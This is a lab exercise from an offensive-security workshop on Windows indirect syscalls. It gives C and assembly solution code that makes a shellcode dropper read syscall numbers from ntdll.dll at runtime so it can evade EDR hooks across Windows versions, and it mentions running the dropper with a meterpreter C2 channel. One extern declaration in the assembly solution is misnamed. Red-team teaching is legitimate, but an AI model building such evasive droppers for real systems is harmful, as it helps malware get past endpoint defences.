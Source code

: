 ## LAB Exercise 6: Dynamic Retrieval from SSNs

In the first bonus chapter we want to further develop our indirect syscall dropper. Until now, we had the limitation that our dropper would only work in the context of the Windows version that was used to debug the system service numbers (SSNs) for the used native functions ``NtAllocateVirtualMemory``, ``NtWriteVirtualMemory``, ``NtCreateThreadEx`` and ``NtWaitForSingleObject``. Why? Because to get the basics for direct and indirect syscalls, we have implemented the SSNs as hardcoded values in our assembly resource file. But normally, when we are preparing for a red team engagement, we do not know the Windows version of our target client. So we want to make our indirect syscall dropper a bit more flexible and instead of hardcoding the SSNs, we want to retrieve them dynamically at runtime from ntdll.dll. 

**Prerequisite:** Chapter 7 has been completed and you already have a working indirect syscall poc that currently uses hardcoded SSNs.
  

## Exercise 6 Tasks: 
### Develop your indirect syscall dropper to dynamically retrieve SSNs.
| Task Nr.   | Task Description |
| :---:      | ---              |
|  1         | Download indirect syscall POC from the code section of this chapter.                 |
|  2         | To implement the dynamic SSN retrieval functionality, you will need to complete the following tasks: <ul><li>Complete the missing code in the main code section</li><li>Complete the missing code in the ``syscalls.asm`` file</li></ul>                  |

### Analyse the Dropper
| Task Nr.   | Task Description |
| :---:      | ---              |
| 3          | Use **x64dbg** to debug or analyse the dropper. <ul><li>What differences can you see between a dropper with hardcoded SSNs and a dropper that dynamically retrieves SSNs at runtime?</li></ul>                |

## Visual Studio
As mentioned, you will need an already working indirect syscall dropper poc by the end of chapter 7. Based on this, we want to improve our indirect syscall dropper to retrieve the SSNs dynamically at runtime, rather than hardcoding them.  
  
### Start Address Native Function
In order to be able to dynamically retrieve the SSN for each of the native functions used in our code, we first need to define a pointer to a function that holds the start address of that function. If you remember, this part of the code was already implemented in the chapter where we built the indirect syscall dropper, because we used the same principle to get the address for the syscall instruction of each function. This means that part of the code in the main file is already implemented.  
<details>
<summary>Code</summary>
    
```C
// Declare and initialize a pointer to the NtAllocateVirtualMemory function and get the address of the NtAllocateVirtualMemory function in the ntdll.dll module
    UINT_PTR pNtAllocateVirtualMemory = (UINT_PTR)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");
    UINT_PTR pNtWriteVirtualMemory = (UINT_PTR)GetProcAddress(hNtdll, "NtWriteVirtualMemory");
    UINT_PTR pNtCreateThreadEx = (UINT_PTR)GetProcAddress(hNtdll, "NtCreateThreadEx");
    UINT_PTR pNtWaitForSingleObject = (UINT_PTR)GetProcAddress(hNtdll, "NtWaitForSingleObject");     
```
     
</details>

### Memory Address System Service Number (SSN)
In the next step, we want to get the effective memory address from the ``SSN`` in the ``syscall stub`` of the native function by adding the necessary offset to the start address of the native function that we retrieved in the previous step. To get the memory address from the syscall instruction, we need to add ``4-bytes``. Why 4-bytes? Because this is the offset calculated from the start address of the native function.

<details>
    <p align="center">
<img width="1000" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/1b6bd7f1-1323-48d1-bcb2-83d4395c49bb"> 
    </p>
</details>   


In the indirect syscall poc in this chapter, this code is implemented only for the native function ``NtAllocateVirtualMemory`` and must be completed by the workshop attendee based on the code scheme for ``NtAllocateVirtualMemory`` which can be seen in the code section below.  
<details>
<summary>Code</summary>
    
```C
// Here we're retrieving the system call number for each function. The syscall number is used to identify the syscall when the program uses the syscall instruction.
    // It's assumed that the syscall number is located 4 bytes into the function.
    wNtAllocateVirtualMemory = ((unsigned char*)(pNtAllocateVirtualMemory + 4))[0];     
```
     
</details>   

If it was not possible for you to complete this code section, don`t worry it will work next time and additionally you can find the complete code in the following solution section. 

<details>
<summary>Solution</summary>
    
```C
// Here we're retrieving the system call number for each function. The syscall number is used to identify the syscall when the program uses the syscall instruction.
    // It's assumed that the syscall number is located 4 bytes into the function.
    wNtAllocateVirtualMemory = ((unsigned char*)(pNtAllocateVirtualMemory + 4))[0];
    wNtWriteVirtualMemory = ((unsigned char*)(pNtWriteVirtualMemory + 4))[0];
    wNtCreateThreadEx = ((unsigned char*)(pNtCreateThreadEx + 4))[0];
    wNtWaitForSingleObject = ((unsigned char*)(pNtWaitForSingleObject + 4))[0];    
```
     
</details>

### Global Variables
To store the memory address from the SSN of the respective native function, and also to be able to provide the memory address later for the assembly code in the ``syscalls.asm`` file, we declare a global variable for each SSN address, which is declared as a DWORD. Also in this case in the indirect syscall poc of this chapter, this code is implemented only for the native function ``NtAllocateVirtualMemory`` and must be completed by the workshop attendee based on the code scheme for ``NtAllocateVirtualMemory`` which can be seen in the code section below.

<details>
<summary>Code</summary>
    
```C
// Global DWORD (double words) that will hold the SSN
DWORD wNtAllocateVirtualMemory;       
```
     
</details>   

If it was not possible for you to complete this code section, don`t worry it will work next time and additionally you can find the complete code in the following solution section. 

<details>
<summary>Solution</summary>
    
```C
// Declare global variables to hold the syscall instruction addresses
DWORD wNtAllocateVirtualMemory;
DWORD wNtWriteVirtualMemory;
DWORD wNtCreateThreadEx;
DWORD wNtWaitForSingleObject;     
```
     
</details>



### Assembly Instructions
Again, we don't want to ask ntdll for the syscall stub, but in this case we want to replace the hardcoded SSN with the variable that holds the SSN for the respective native function. Therefore, we need to complete the code in the ``syscalls.asm`` file. The code below shows the assembler code for the syscall stub of ``NtAllocateVirtualMemory`` which is already implemented in the syscalls.asm file in context of the indirect syscall dropper.  
  
<details>
<summary>Code</summary>

```asm
  EXTERN wNtAllocateVirtualMemory:DWORD               ; Holds the dynamic retrieved SSN for NtAllocateVirtualMemory 
  EXTERN sysAddrNtAllocateVirtualMemory:QWORD         ; Holds the actual address of the NtAllocateVirtualMemory syscall in ntdll.dll.
     
.CODE  ; Start the code section

; Procedure for the NtAllocateVirtualMemory syscall
NtAllocateVirtualMemory PROC
    mov r10, rcx                                    ; Move the contents of rcx to r10. This is necessary because the syscall instruction in 64-bit Windows expects the parameters to be in the r10 and rdx registers.
    mov eax, wNtAllocateVirtualMemory               ; Move the syscall number into the eax register.
    jmp QWORD PTR [sysAddrNtAllocateVirtualMemory]  ; Jump to the actual syscall.
NtAllocateVirtualMemory ENDP                     	; End of the procedure.     
     
END  ; End of the module     
     
```
 
</details>
  
It is **your task** to **add** the ``syscalls.asm`` file as a resource (existing item) to the indirect syscall dropper project and **complete the assembler code and C code** for the other three missing native APIs ``NtWriteVirtualMemory``, ``NtCreateThreadEx`` and ``NtWaitForSingleObject``.

If you are unable to complete the assembly code at this time, you can use the assembly code from the solution and paste it into the ``syscalls.asm`` file in the **direct syscall dropper poc**. 
    
<details>
    <summary>Solution</summary>

```asm
  
EXTERN wNtAllocateVirtualMemory:DWORD               ; Holds the dynamic retrieved SSN for NtAllocateVirtualMemory
EXTERN wNtWriteVirtualMemory:DWORD                  ; Holds the dynamic retrieved SSN for NtWriteVirtualMemory
EXTERN wNtCreateThreadEx:DWORD                      ; Holds the dynamic retrieved SSN for NtCreateThreadEx
EXTERN wNtWaitForSingleObject:DWORD                 ; Holds the dynamic retrieved SSN for NtWaitForSingleObject

EXTERN sysAddrNtAllocateVirtualMemory:QWORD         ; The actual address of the NtAllocateVirtualMemory syscall in ntdll.dll.
EXTERN sysAddrNt:QWORD                              ; The actual address of the NtWriteVirtualMemory syscall in ntdll.dll.
EXTERN sysAddrNtCreateThreadEx:QWORD                ; The actual address of the NtCreateThreadEx syscall in ntdll.dll.
EXTERN sysAddrNtWaitForSingleObject:QWORD           ; The actual address of the NtWaitForSingleObject syscall in ntdll.dll.


.CODE  ; Start the code section

; Procedure for the NtAllocateVirtualMemory syscall
NtAllocateVirtualMemory PROC
    mov r10, rcx                                    ; Move the contents of rcx to r10. This is necessary because the syscall instruction in 64-bit Windows expects the parameters to be in the r10 and rdx registers.
    mov eax, wNtAllocateVirtualMemory               ; Move the syscall number into the eax register.
    jmp QWORD PTR [sysAddrNtAllocateVirtualMemory]  ; Jump to the actual syscall.
NtAllocateVirtualMemory ENDP                     	  ; End of the procedure.


; Similar procedures for NtWriteVirtualMemory syscalls
NtWriteVirtualMemory PROC
    mov r10, rcx
    mov eax, wNtWriteVirtualMemory
    jmp QWORD PTR [sysAddrNtWriteVirtualMemory]
NtWriteVirtualMemory ENDP


; Similar procedures for NtCreateThreadEx syscalls
NtCreateThreadEx PROC
    mov r10, rcx
    mov eax, wNtCreateThreadEx
    jmp QWORD PTR [sysAddrNtCreateThreadEx]
NtCreateThreadEx ENDP


; Similar procedures for NtWaitForSingleObject syscalls
NtWaitForSingleObject PROC
    mov r10, rcx
    mov eax, wNtWaitForSingleObject
    jmp QWORD PTR [sysAddrNtWaitForSingleObject]
NtWaitForSingleObject ENDP

END  ; End of the module
```
    
</details>


  

## Dropper Analysis: x64dbg 
The first step is to run your direct syscall dropper, check that the .exe is running and that a stable meterpreter C2 channel is open. 
Then we open x64dbg and attach to the running process, note that if you open the indirect syscall dropper directly in x64dbg, you need to run the assembly first.
     
<details>
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/a8509e63-ddea-4dee-894f-b2266bb3e504">
</p>
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/3547125b-a8c2-4e17-b7ec-84434181cf36">
</p>    
</details>
  
Then we want to analyse the dropper and compare our findings with the dropper which uses hardcoded SSNs
  
  
  ## Summary:
- Made the transition from hardcoded SSNs to dynamically retrieved SSNs.
- Dynamically retrieved SSNs are stored in globally declared variables. 
- Dynamically retrieved SSNs give us more flexibility in terms of targeting different versions of Windows.
